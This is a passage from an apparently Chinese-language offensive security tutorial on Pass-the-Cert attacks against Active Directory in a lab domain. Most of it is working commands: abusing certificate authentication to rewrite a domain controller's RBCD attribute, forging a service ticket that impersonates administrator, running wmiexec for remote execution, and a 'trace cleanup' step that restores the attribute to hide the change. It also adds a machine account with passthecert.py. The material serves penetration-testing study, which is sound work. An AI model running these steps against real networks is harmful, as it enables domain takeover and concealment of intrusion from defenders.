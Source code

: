     ![x1txln.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-061353b02c75f5d6f792e3b0653823f0e784e515.png)
2. 修改目标服务器的 RBCD 属性

```shell
# 查询机器账户的 SID - PowerView.ps1
Get-NetComputer NoPKI -Properties objectsid
# 修改属性
PassTheCert.exe --rbcd --server DC01.hack.lab --cert-path NoPKI.pfx --target "CN=DC01,OU=Domain Controllers,DC=hack,DC=lab" --sid "S-1-5-21-3309395417-4108617856-2168433834-3603"
```

![x1NCwT.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-2bef17a3c23f40cc503556471886cc5febaf8484.png)

3. 后渗透：申请TGT及攻击 ```shell
    
    python3 getST.py -spn cifs/DC01.hack.lab -impersonate administrator hack.lab/NoPKI\$:123.com -dc-ip 20.20.20.5
    ```

KRB5CCNAME=administrator.ccache python3 wmiexec.py -k hack.lab/administrator@DC01.hack.lab -no-pass -dc-ip 20.20.20.5

```php

### 痕迹清除 | --restore
```shell
$ PassTheCert.exe --rbcd --server DC01.hack.lab --cert-path NoPKI.pfx --target "CN=DC01,OU=Domain Controllers,DC=hack,DC=lab" --restore CN=DC01,OU=Domain_Controllers,DC=hack,DC=lab_msDS-AllowedToActOnBehalfOfOtherIdentity_20221003T005658Z.txt

Restoring msDS-AllowedToActOnBehalfOfOtherIdentity attribute from file CN=DC01,OU=Domain_Controllers,DC=hack,DC=lab_msDS-AllowedToActOnBehalfOfOtherIdentity_20221003T005658Z.txt.
Success
```

域控上验证是否清除该属性  
![x1NFkF.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-42fd2f9f9a264b3e722d8c9b548331d15e7ee2dd.png)

PassTheCert.py 工具
-----------------

一款通过 Python 实现的 PTC 攻击工具，，允许用证书对 LDAP/S 服务器进行认证，以执行不同的攻击行动

PS：该工具需要证书的key和crt两部分，前面申请到的base64加密的证书需要通过 Certipy 工具进行处理下：

```shell
certipy cert -pfx NoPKI.pfx -nokey -out NoPKI.crt
certipy cert -pfx NoPKI.pfx -nocert -out NoPKI.key 
```

下边介绍不同参数的使用，一个完整的使用过程可以见 RBCD 攻击（第四块带星号部分）

### 添加用户 | add\_computer

```shell
python3 passthecert.py -action add_computer -crt NoPKI02.crt -key NoPKI02.key -domain hack.lab -dc-ip 20.20.20.5 -computer-name NoPKI02$ -computer-pass 123.com
```
